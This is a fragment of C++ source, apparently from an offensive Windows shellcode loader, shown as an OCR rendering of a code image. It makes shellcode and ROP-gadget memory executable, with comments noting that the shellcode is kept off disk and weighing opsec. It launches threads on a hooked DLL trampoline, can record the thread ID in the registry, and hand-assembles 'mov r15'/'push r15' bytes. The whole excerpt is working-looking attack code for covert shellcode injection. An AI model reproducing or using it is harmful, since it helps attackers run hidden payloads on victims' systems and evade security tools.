 ```cpp
    // Restore DLL protection
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READ, &oldProtect);

#ifdef USE_ISOLATED_MEMORY
    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(address, shSize, PAGE_EXECUTE_READ, &oldProtect);

    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(ropInjectorAddress, N_ROP_GADGETS * MOV_SPACE + 1, PAGE_EXECUTE_READ, &oldProtect);
#else
    VirtualProtectFunc(address, rxMemoryRegionSize, PAGE_EXECUTE_READ, &oldProtect);

#endif
    // Starting thread on the trampoline
    DWORD threadID;
    
#ifdef FREE

#ifdef _DEBUG
    printfFunc("Creating Thread... \n");
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#else
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#endif
    SleepFunc(1000);
#ifdef _DEBUG
    printfFunc("Created Thread: 0x%llx\n", (ULONG64)hThreadFree);
#endif

#ifdef SAVE_THREAD
    result = RegSetValueExFunc(hKey, (LPCWSTR)tiValue, 0, REG_DWORD, (CONST BYTE*) & threadID, sizeof(threadID));
#endif

#endif

#ifndef _DEBUG

    HANDLE hThread = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)trampolineAddress, NULL, 0, &threadID);
    WaitForSingleObjectFunc(hThread, 1000);
#endif

    return 0;
}

VOID _ConstructPushWithBytes(UCHAR* source, UCHAR* destination, UINT sourceStart, UINT destStart) {

    // mov r15, <address>
    destination[destStart] = 0x49;
    destination[destStart + 1] = 0xBF;
    
    for (int i = 0; i < 8; i++) {
        destination[destStart + 2 + i] = source[sourceStart + i];
    }
    // push r15
    destination[destStart + 10] = 0x41;
    destination[destStart + 11] = 0x57;
```